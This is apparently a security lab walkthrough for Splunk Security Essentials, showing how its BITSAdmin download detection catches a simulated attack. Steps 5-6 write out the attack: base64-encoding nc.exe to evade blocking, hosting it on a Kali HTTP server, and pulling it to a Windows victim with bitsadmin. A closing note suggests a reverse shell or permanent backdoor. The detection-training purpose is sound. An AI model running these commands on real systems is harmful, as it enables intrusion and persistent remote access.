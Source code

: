 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

---  
3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)

---  
![](attachments/2.5-SSE_open2.png)  

---

4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

---  
Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  

---

  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  

--- 


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  

---  


5. Lets go to the Kali, login via ssh or VM console, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > b64nc
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our b64nc (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
---  

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/b64nc c:\temp\myshell64
```

---  

7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).
